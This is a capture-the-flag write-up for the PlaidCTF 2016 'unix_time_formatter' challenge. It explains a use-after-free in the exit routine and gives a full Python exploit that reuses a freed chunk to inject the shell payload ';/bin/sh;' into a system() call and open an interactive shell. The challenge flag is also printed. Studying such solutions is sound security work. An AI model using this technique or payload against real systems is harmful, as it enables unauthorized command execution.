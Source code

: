 ```yaml
---
layout: post
title: pctf 2016 unix_time_formatter writeup
category: writeup
---
```


this is simple formatter of unix time, and there are vulnerability in exit function.

```C
signed __int64 menu_exit()
{
  signed __int64 result; // rax@1
  __int64 v1; // rcx@3
  char s; // [sp+8h] [bp-20h]@1
  __int64 v3; // [sp+18h] [bp-10h]@1

  v3 = *MK_FP(__FS__, 40LL);
  wrapper_free((void *)qword_602118);
  wrapper_free(value);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 'Y' )
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  v1 = *MK_FP(__FS__, 40LL) ^ v3;
  return result;
}
```

If I goto exit, and choose "N", then I can reuse free chunks.
so other thing is find values which is given by malloc.

there is a function which set time zone, and it uses strdup.
it uses malloc inside. [man strdup](http://linux.die.net/man/3/strdup)

and there are print_time function, it calls system with filtered argument "value".
but we can bypass with use-after-free at previous code.

so exploit step is :

 1. write any value to "qword_602118" (this is time format value)
 2. free at exit
 3. overwrite string at set_timezone
 4. call system at print_time


This is my exploit code.

```python
import pwnbox


# PCTF{use_after_free_isnt_so_bad}

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q unix_time_formatter_9a0c42cadcb931cce0f9b7a1b4037c6b')
else:
    p = pwnbox.pipe.SocketPipe('unix.pwning.xxx',9999)

payload = '\';/bin/sh;\''

def lobby():
    p.read_until('5) Exit.\n')
    p.read_until('>')


def set_timeFormat(s):
    p.write('1\n')
    p.read_until('mat:')
    p.write(s+'\n')
    lobby()

def set_time(d):
    p.write('2\n')
    p.read_until('time: ')
    p.write('%d\n' % d)
    lobby()

def exit(s):
    p.write('5\n')
    p.read_until(')?')
    p.write(s+'\n')
    lobby()

def set_timeZone(s):
    p.write('3\n')
    p.read_until('zone:')
    p.write(s+'\n')
    lobby()

if local:
    p.read_until('(gdb)')
    p.write('r\n')


lobby()
set_timeFormat('a'*len(payload))
set_time(1)
exit('N')
set_timeZone(payload)
p.write('4\n')
p.interact()
```
 


